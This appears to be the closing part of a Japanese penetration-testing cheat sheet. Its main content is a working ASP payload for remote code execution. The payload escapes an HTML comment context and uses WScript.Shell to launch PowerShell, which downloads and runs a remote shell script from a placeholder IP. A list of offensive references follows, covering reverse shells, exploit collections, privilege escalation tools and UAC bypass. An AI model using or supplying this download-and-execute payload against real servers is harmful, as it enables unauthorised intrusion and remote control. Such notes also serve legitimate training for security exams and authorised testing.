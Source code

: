 ```asp
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set objShell = CreateObject("WScript.Shell")
objShell.Exec("c:\windows\system32\cmd.exe /c powershell.exe iex(new-object net.webclient).downloadstring('http://<IP>/shell.ps1')")
Response.write("<!-"&"-")
%>
-->
```



# 参考サイト

https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/

http://www.fuzzysecurity.com/tutorials/expDev/2.html

 https://oscp.securable.nl/buffer-overflow 

https://qiita.com/v_avenger/items/0af8602e4572889f9184

https://book.hacktricks.xyz/

https://guif.re/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

https://www.exploit-db.com/papers/12975

 https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

https://security.stackexchange.com/questions/83231/mongodb-nosql-injection-in-python-code

 https://security.stackexchange.com/questions/129121/help-injecting-a-mongodb-used-by-a-python-web-app 

https://security.stackexchange.com/questions/231154/shellcode-in-mongodb-python-code

https://github.com/samratashok/nishang

https://github.com/rapid7/ssh-badkeys/tree/master/authorized

https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/

https://gtfobins.github.io/

https://github.com/lucyoa/kernel-exploits/

https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits

https://ivanitlearning.wordpress.com/2019/07/07/bypassing-default-uac-settings-manually/

https://github.com/ohpe/juicy-potato/releases
https://github.com/ivanitlearning/Juicy-Potato-x86/releases
